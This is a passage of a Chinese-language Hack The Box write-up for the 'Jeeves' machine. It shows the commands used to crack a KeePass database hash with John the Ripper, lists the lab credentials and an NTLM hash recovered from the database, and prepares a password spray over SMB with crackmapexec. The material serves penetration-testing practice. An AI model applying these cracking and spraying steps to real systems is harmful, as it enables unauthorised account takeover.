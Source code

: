 ┌──(root💀kali)-[~/htb/Jeeves]
└─# cat keep.hash 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

爆破
```                                                                                          
┌──(root💀kali)-[~/htb/Jeeves]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt keep.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:16 DONE (2022-05-31 11:07) 0.05906g/s 3247p/s 3247c/s 3247C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

密码：moonshine1

用软件打开kdbx文件，输入上面破解的密码，得到下面一组账号信息
```
anonymous：Password
Michael321：12345
admin：F7WhTrSFDKB6sxHU1cUn
hackerman123：pwndyouall!
bob：lCEUnYPjNfIuPZSzOySA
administrator：S1TjAtJHKsugh9oC4VZl
?:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

## 密码喷洒

整理user
```
anonymous
Michael321
admin
hackerman123
bob
administrator
kohsuke
```

整理pass
```
Password
12345
F7WhTrSFDKB6sxHU1cUn
pwndyouall!
lCEUnYPjNfIuPZSzOySA
S1TjAtJHKsugh9oC4VZl
```

密码喷洒
```
┌──(root💀kali)-[~/htb/Jeeves]
└─# cme smb 10.10.10.63 -u user.txt -p pass.txt   